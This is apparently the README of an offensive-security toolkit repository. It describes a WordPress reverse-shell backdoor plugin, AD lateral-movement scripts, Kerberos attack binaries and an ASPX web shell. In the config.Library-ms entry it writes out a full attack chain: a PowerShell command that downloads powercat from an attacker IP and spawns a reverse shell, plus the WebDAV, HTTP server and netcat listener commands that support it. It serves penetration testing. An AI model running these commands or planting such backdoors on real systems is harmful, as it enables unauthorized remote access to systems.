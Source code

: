 <pre>
offensive
---------
Tips and tricks etc. for offensive security and testing

BackdoorPlug.php
|
'-->  A WordPres plugin containing reverse shell. 
      Prerequirements: you need access to the WP to upload and activate plugins.
      Just change the host/port to whatever your listener is running on and maybe adjust the shell accordingly too, then just zip 
      it, upload the zip as a plugin and activate the plugin to get connected with the WP-instance.

checklist
|
'-->  A very basic list of pentest steps.

config.Library-ms
|
'-->  A config library file to open a connection to the address defined in the simple location url, which for example serves 
      malicious Windows shortcut to execute some nasty powershell like:
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:9090/powercat.ps1'); powercat 
        -c 192.168.12.34 -p 4000 -e powershell"
      Here you should have the following: 
        - wsgidav (WebDAV: wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/username/webdav/) server running, 
          serving the Windows shortcut file, which runs the command above
        - a Python httpd (python -m http.server 9090) serving the powercat.ps1
        - a netcat listener (nc -nvlp 4000) or similar to catch the resulting reverse shell.

dorks.google
|
'-->  Some random Google dorks to leverage while enriching your case data

enumhelper.ps1
|
'-->  A helper script for AD enumeration and lateral movement. Built on-the-go so might contain a lot of logical fallacies and 
      missing lots of error checks.
      Check the help section before running: .\enumhelper.ps1 "help" for somewhat of instructions.
      Can do: 
        - LDAP queries
        - User/pass testing over LDAP-query
        - List all properties of LDAP response object
        - Get the value of a specific LDAP property
        - Get all SPNs and related objects
        - Check if any SPNs are tied to a (service)account
        - Get DC info: name, hostname, OS, OS version, IPv4 and IPv6
        - Get AD device info: name, hostname, OS, OS SP, OS version, IPv4 and IPv6
        - Get AD user/group info by SID (converting a SID to a name for example)
        - Create PsExec.exe or PsExec64.exe
        - SID lookup from AD
        - DCOM lateral movement leveraging MMC
          - Also the possibility of building a reverse-shell command and initiating it on the target
        - Remote connectiong over PowerShell
        - Remote commands over WMI, WINRS, PsExec or PsExec64:
          - Also the possibility of building a reverse-shell command and initiating it on the target

Get-Shortcut.ps1
|
'-->  Get shortcut (.lnk) info via PowerShell. Just import-module .\Get-Shortcut.ps1 and you can go: Get-Shortcut c:\path\to\link.lnk
      
kerbrute_linux_amd64
|
'-->  An awesome tool for Kerberos bruting from https://github.com/ropnop/kerbrute, here's a pre-built
      64bit Linux binary
      
KrbRelayUp.exe
|
'-->  Kerberos Relay attack binary. 
      Lost my mind trying to get this to build so then just ended up getting a prebuilt one from
      https://kb.offsec.nl/tools/techniques/krbrelayup/, thanks! The source is available at:
      https://github.com/Dec0ne/KrbRelayUp
      
nix-shell-tricks
|
'-->  Common tips and tricks etc. to use in Linux shell when being offensive or otherwise enumerating

php-trickery
|
'-->  Some PHP-tricks for offensive security

reverse_shell.aspx
|
'-->  Not my creation, credit goes to INSOMNIA SECURITY :: InsomniaShell.aspx, 
      brett.moore@insomniasec.com ::  www.insomniasec.com

sqli-tips
|
'-->  Tips for SQL injections

winbin.sh
|
'-->  Whip up custom executable/dll on the fly. So far only supports creating a x64 executable/dll for 
      adding a defined user with a defined password to the Administrators group or changing an existing user's password. 
      For example if you need to replace a bin which you have full control over to gain further foothold or to leverage a 
      missing DLL etc.

windows-shell-tricks-and-ad-tips
|
'-->  Common tips and tricks etc. to use with PowerShell / cmd when being offensive or otherwise enumerating and getting to know AD
</pre>

